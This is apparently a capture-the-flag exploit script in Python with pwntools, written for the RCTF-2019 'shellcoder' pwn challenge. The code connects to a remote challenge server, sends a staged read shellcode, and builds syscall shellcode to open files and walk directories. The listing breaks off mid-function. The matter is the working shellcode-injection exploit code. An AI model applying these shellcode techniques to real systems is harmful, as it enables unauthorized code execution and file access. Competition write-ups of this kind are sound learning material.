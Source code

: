 ```python
def getend(n):
	idx=0
	for x in n:
		if x=='\x00':
			return idx	
		idx+=1
	return -1
def getinfo(data,flag=0):
	d=0
	res=[]
	f=[]
	while(d<len(data)):
		reclen=ord(data[d+0x10])
		if reclen == 0:
			break 
		dtype=ord(data[d+reclen-1])
		namelen=getend(data[d+0x12:])
		if dtype==4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
			res.append(data[d+0x12:d+0x12+namelen])
			#log.warning("DIR:%s",data[d+0x12:d+0x12+namelen])
		elif dtype!=4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
			f.append(data[d+0x12:d+0x12+namelen])
		d+=reclen
	return res,f
def push_path(path):
	d=0
	l=len(path)
	path+=(-l%8)*'\x00'
	pad='''
	mov rsi,{}
	push rsi	
	'''
	res=''
	while(d<len(path)):
		res=pad.format(hex(u64(path[d:d+8])))+res
		d+=8
	return res
def exp(seek,flag=0):	
	#context.log_level='debug'
	#p=process('./shellcoder')
	#gdb.attach(p)
	p=remote("139.180.215.222",20002)
	context.arch='amd64'
	sh='''
	xchg rdi,rsi
	mov edx,esi
	syscall
	'''
	sh=asm(sh)
	p.sendafter(":",sh)


	#print push_path("./flag")
	#raw_input()
	sh='''
	mov ax,0x101
	mov rdi,-0x64
	{}
	mov rsi,rsp
	mov rdx,0
	mov r10,0
	syscall

```

[1]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/shellcoder
[2]: https://cloud.tencent.com/developer/article/1143454